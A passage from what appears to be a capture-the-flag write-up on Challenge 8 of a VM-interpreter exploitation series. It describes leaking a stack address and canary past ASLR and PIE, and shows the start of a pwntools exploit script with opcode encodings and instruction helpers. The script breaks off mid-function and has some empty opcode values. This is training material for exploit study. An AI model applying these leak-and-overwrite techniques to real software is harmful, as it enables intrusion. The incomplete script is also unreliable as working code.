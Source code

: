 For the mirror stage, I was needed to update the offsets, as well as to change the instruction layout.

## Challenge 8

Pretty similar to before, but now there’s also ASLR, a canary, and the binary is PIE. \
We can leak a stack address as well as the canary value easily via the write handler. 

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level8.0'
GDB_SCRIPT= '''
b *interpret_sys+0x1e4
b *main+0x2ee

c

'''

@dataclass
class Regs:
    a = b'\x01'
    b = b'\x04'
    c = b'\x40'
    d = b'\x10'
    s = b'\x02'
    i = b'\x08'
    f = b'\x20'

@dataclass
class Opcodes:
    STM = b''
    IMM = b'\x40'
    ADD = b''
    CMP = b''
    JMP = b''
    LDM = b''
    STK = b''
    SYSCALL = b'\x20'

@dataclass
class Syscalls:
    OPEN = b'\x01'
    READ_CODE = b''
    READ_MEM = b'\x08'
    WRITE_MEM = b'\x04'
    SLEEP = b''
    EXIT = b''


def syscall(number, out_reg):
    return out_reg + number + Opcodes.SYSCALL 

def write_register(register, value):
    assert(value < 0x100)
    return value.to_bytes(1, 'little') + register + Opcodes.IMM

def read_stdin_to_memory(offset, count):
    buffer = b''
```